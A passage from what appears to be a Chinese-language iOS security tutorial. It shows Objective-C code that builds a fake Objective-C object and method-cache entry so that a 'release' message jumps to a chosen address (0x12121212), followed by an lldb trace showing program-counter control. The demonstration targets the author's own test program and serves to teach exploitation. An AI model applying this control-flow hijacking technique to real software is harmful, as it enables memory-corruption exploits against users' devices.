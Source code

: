 ```
```
&emsp;&emsp;接下来在main函数中尝试将talker这个receiver改成我们伪造的receiver，然后利用伪造的”release” selector来控制PC指向0x12121212这个地址：
```
#import "Talker.h"
#include <dlfcn.h>
#include <mach-o/dyld_images.h>
#include <objc/runtime.h>

struct fake_structure_t
{
    uint32_t fake_objc_class_ptr;
}fake_structure;

struct fake_objc_class_t {
        char pad[0x8];
        void* cache_buckets_ptr;  //指向缓存数组
        uint32_t cache_bucket_mask;
} fake_objc_class;

struct fake_cache_bucket_t {
        void* cached_sel;
        void* cached_function;
} fake_cache_bucket;

int main(void) {
    
  Talker *talker = [[Talker alloc] init];
  [talker say: @"Hello, Ice and Fire!"];
  [talker say: @"Hello, Ice and Fire!"];
  [talker release];


  fake_cache_bucket.cached_sel = (void*) NSSelectorFromString(@"release");
  NSLog(@"cached_sel = %p", NSSelectorFromString(@"release"));

  fake_cache_bucket.cached_function = (void*)0x12121212;
  NSLog(@"fake_cache_bucket.cached_function = %p", (void*)fake_cache_bucket.cached_function);
    
  fake_objc_class.cache_buckets_ptr = &fake_cache_bucket;
  fake_objc_class.cache_bucket_mask=0;

  fake_structure.fake_objc_class_ptr=&fake_objc_class;
  talker= &fake_structure;

  [talker release];
}
```
&emsp;&emsp;接下来把新编译的hello传到我的iphone上，然后用debugserver进行调试：
&emsp;&emsp;通过查看第二次release调用的时候，$r9缓存的地址，已经被修改成了0x12121212，接下来就会通过调用缓存的地址跳转到0x12121212.
```
(lldb) n
Process 30030 stopped
* thread #1: tid = 0x3a0e7, 0x3a513644 libobjc.A.dylib`objc_msgSend + 36, queue = 'com.apple.main-thread', stop reason = instruction step over
    frame #0: 0x3a513644 libobjc.A.dylib`objc_msgSend + 36
libobjc.A.dylib`objc_msgSend:
->  0x3a513644 <+36>: bx     r12
    0x3a513646 <+38>: cmp.w  r12, #0x1
    0x3a51364a <+42>: blo    0x3a513658                ; <+56>
    0x3a51364c <+44>: it     eq
(lldb) x/10 $r12
error: failed to read memory from 0x12121212.
(lldb) c
```